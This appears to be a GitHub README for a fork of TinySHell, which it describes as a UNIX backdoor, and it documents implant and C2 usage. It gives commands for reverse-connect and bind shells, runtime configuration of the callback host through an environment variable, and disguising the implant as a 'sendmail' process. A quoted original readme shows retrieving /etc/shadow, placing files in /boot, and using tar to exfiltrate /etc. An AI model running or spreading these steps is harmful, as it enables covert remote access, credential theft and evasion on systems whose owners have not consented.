 This is an updated fork of creaktives fork of TinySHell, an open source UNIX backdoor.

creaktive added commandline argument parsing which allows you to dynamically set the connectback host, port, and shared secret value at runtime. 

Like so:
```
# implant side
Usage: ./tshd [ -c [ connect_back_host ] ] [ -s secret ] [ -p port ]

# c2 side
Usage: ./tsh [ -s secret ] [ -p port ] [command]

   <hostname|cb>
   <hostname|cb> get <source-file> <dest-dir>
   <hostname|cb> put <source-file> <dest-dir>
```

I've since added support for passing those arguments through an environmental variable by shamelessly copy-pasting Skyper from The Hackers Choice's implementation of env2argv from the THC fork of dsniff. 

So now you can do the following on the implant side:
```
ENV_ARGS="-c localhost -s HACKTHEPLANET -p 1437" ./tshd
```

Which is kinda cool, but it gets neater - you can hide the process somewhat with old school trickery like the following - making it look like a sendmail process as an example:
```
mv tshd sendmail
PATH=.:$PATH ENV_ARGS="-c localhost -s HACKTHEPLANET -p 1437" sendmail 
```

Further changes will follow as testing proceeds and I refactor small bits, try out some bullshit, etc. 

For the planned experiments/etc, see the Issues tab where I've created an issue for each "idea" to experiment with. 

I can't guarentee any timeline on how fast anything will get done, or in what order, it really depends on free time, effort, etc. 

## current notes:
11-04-2024: tested in bind shell mode, working on Ubuntu and FreeBSD targets. Reverse connect mode seems buggy, unclear if network gremlins or other. Build on OpenBSD fails. Plan going forward is to fix the reverse connect mode, then fix the OpenBSD build-time issues, then fix the OpenBSD run-time issues.  
12-04-2024: Figured out that the issue with reverse-connection mode was an extra : in the getopt string after a lot of buggering around. Reverse and bind modes now working perfectly on FreeBSD and Ubuntu. Further stress testing needed though.  
12-04-2024: currently, the tsh client sends `exec bash --login` as the default command to pop a shell - `tsh_runshell( server, "exec bash --login" ) );`, on some systems without bash this causes an error. So we should probably default to "sh" instead?  
12-04-2024: issuing a release at this point just as a snapshot of it "working" on Ubuntu/FreeBSD.  

## compatability/test notes
I'll update these as I figure out what is/is not working, etc.


| OS | Distribution | Version | Architecture | Bind Shell Client | Bind Shell Server | Reverse Shell Client | Reverse Shell Server | File Upload | File Download | Env2Args |
| :---:        |     :---:      |         :---: | :---:        |     :---:      |         :---: | :---:        |     :---:      |         :---: |    :---:      |         :---: |
| Linux   | Ubuntu |   23.10  | x86_64 | YES | YES | YES | YES | UNK | UNK | YES |
| FreeBSD | FreeBSD | 14.0-RELEASE | x86_64 | YES | YES | YES | YES | UNK | UNK | YES |


## Original readme below.
```

                 Tiny SHell - An open-source UNIX backdoor


    * Before compiling Tiny SHell

        1. First of all, you should setup your secret key, which
           is located in tsh.h; the key can be of any length (use
           at least 12 characters for better security).

        2. It is advised to change SERVER_PORT, the port on which
           the server will be listening for incoming connections.

        3. You may want to start tshd in "connect-back" mode if
           it runs on on a firewalled box; simply uncomment and
           modify CONNECT_BACK_HOST in tsh.h.

    * Compiling Tiny SHell

        Run "make <system>", where <system> can be any one of these:
        linux, freebsd, openbsd, netbsd, cygwin, sunos, irix, hpux, osf

    * How to use the server

        It can be useful to set $HOME and the file creation mask
        before starting the server:

            % umask 077; HOME=/var/tmp ./tshd

    * How to use the client

        Make sure tshd is running on the remote host. You can:

        - start a shell:

            ./tsh <hostname>

        - execute a command:

            ./tsh <hostname> "uname -a"

        - transfer files:

            ./tsh <hostname> get /etc/shadow .
            ./tsh <hostname> put vmlinuz /boot

        Note: if the server runs in connect-back mode, replace
        the remote machine hostname with "cb".

    * About multiple file transfers

        At the moment, Tiny SHell does not support scp-like multiple
        and/or recursive file transfers. You can work around this bug
        by simply making a tar archive and transferring it. Example:

        ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -

    * About terminal modes

        On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
        and other control keys do not work correctly. Fix it with:

            % stty intr "^C" erase "^H" eof "^D" susp "^Z" kill "^U"

    * About security

        Please remember that the secret key is stored in clear inside
        both tsh and tshd executables; therefore you should make sure
        that no one except you has read access to these two files.
        However, you may choose not to store the real (valid) key in
        the client, which will then ask for a password when it starts.

```
